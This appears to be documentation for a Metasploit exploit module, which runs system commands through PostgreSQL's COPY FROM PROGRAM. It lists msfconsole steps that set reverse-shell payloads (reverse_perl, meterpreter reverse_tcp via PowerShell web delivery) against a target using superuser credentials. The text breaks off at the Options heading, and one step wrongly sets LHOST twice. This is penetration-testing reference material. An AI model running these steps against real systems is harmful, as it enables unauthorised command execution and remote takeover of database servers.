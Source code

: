 ## Vulnerable Application

This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
Set up the software and connect as the postgres superuser.
Use the techniques described in this blogpost to verify command execution:
  https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_execute_server_program' group

  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit

  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit

## Options

### TABLENAME
